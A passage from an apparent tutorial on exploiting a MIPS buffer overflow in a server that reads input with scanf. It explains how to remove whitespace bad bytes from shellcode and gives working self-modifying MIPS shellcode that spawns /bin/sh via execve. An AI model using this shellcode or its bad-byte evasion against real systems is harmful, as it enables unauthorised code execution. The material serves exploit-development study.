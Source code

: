 ![Alt text](/bofmips_15.png)

There is still a little problem: the Alan server is using the function `scanf`
to get the username and the password, this means that it will stop reading if
it will receive any [whitespace
character](https://en.wikipedia.org/wiki/Whitespace_character). The character
\x0c at the end of our shellcode represent a form feed, a whitespace character
that will make `scanf` stop reading. We need to remove it.


This character is part of the system call code. Having a look to the [Mips
instruction
reference](https://www.mrc.uidaho.edu/mrc/people/jff/digital/MIPSir.html) we can
see that the code of a syscall has a big group of bits that can be freely
changed. Bringing to 1 the last of those bits will change our character from
\x0c to \x4c. This should be enough to allow our shellcode to pass.

##### Going further about unwanted bytes

This time we were lucky, but what would happen if the previous byte couldn’t be
changed? It is part of an important command which is a system call which (...I
guess) can’t be replaced with something else.

Well, a possible solution could be to replace the unwanted bytes with whatever
content and overwrite them with the good values during the execution of the
shellcode.

Here is an example of this technique based on the previous shellcode:

```c
void main(void){
    char sc[] = {
            "\x24\x17\x8c\xb0"      /* li s7, -0x7350      */
            "\x06\xf0\xff\xff"      /*dpatch: bltzal s7, dpatch   */
            "\x22\xf7\x43\x50"      /* add s7, s7 0x4350  (delay slot) */
            "\x23\xff\xff\x06"      /* addi ra, ra, -250   */
            "\x24\x19\x01\x1c"      /* li t9, 0x11c        */
            "\x23\x39\xfe\xf0"      /* addi t9, t9, -0x110 */
            "\xa3\xf9\x01\x39"      /* sb t9, 310(ra)      */
            "\x28\x06\xff\xff"      /* slti    a2,zero,-1   */
            "\x3c\x0f\x2f\x2f"      /* lui     t7,0x2f2f    */
            "\x35\xef\x62\x69"      /* ori     t7,t7,0x6269 */
            "\xaf\xaf\xff\xf4"      /* sw      t7,-12(sp)   */
            "\x3c\x0e\x6e\x2f"      /* lui     t6,0x6e2f    */
            "\x35\xce\x73\x68"      /* ori     t6,t6,0x7368 */
            "\xaf\xae\xff\xf8"      /* sw      t6,-8(sp)    */
            "\xaf\xa0\xff\xfc"      /* sw      zero,-4(sp)  */
            "\x27\xa4\xff\xf4"      /* addiu   a0,sp,-12    */
            "\x28\x05\xff\xff"      /* slti    a1,zero,-1   */
            "\x24\x02\x0f\xab"      /* li      v0,4011      */
            "\x01\x01\x01\xff"      /* syscall 0x40404 (with dummy byte) */
    };
    void(*s)(void);
    printf("size: %d\n", strlen(sc));
    s = sc;
    s();
}
```
